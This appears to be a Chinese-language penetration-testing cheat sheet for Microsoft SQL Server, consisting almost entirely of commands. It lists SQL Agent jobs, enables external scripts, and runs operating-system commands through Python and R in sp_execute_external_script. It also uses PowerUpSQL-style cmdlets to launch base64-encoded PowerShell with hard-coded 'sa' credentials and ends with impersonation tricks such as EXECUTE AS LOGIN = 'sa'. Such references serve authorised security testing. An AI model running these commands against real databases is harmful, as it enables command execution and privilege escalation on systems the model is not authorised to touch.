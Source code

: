 ### 列出所有作业

```ps1
SELECT job_id, [name] FROM msdb.dbo.sysjobs;
SELECT job.job_id, notify_level_email, name, enabled, description, step_name, command, server, database_name FROM msdb.dbo.sysjobs job INNER JOIN msdb.dbo.sysjobsteps steps ON job.job_id = steps.job_id
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```

## 外部脚本

:warning: 您需要启用**外部脚本**。

```sql
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```

## Python：

```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language =N'Python',@script=N'import subprocess p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE) OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
```

## R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language=N'R',@script=N'OutputDataSet <- data.frame(system("cmd.exe /c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO

@script=N'OutputDataSet <-data.frame(shell("dir",intern=T))'
```

## 审计检查

### 查找并利用身份冒充机会

* 冒充为：`EXECUTE AS LOGIN = 'sa'`

* 使用DB_OWNER冒充`dbo`
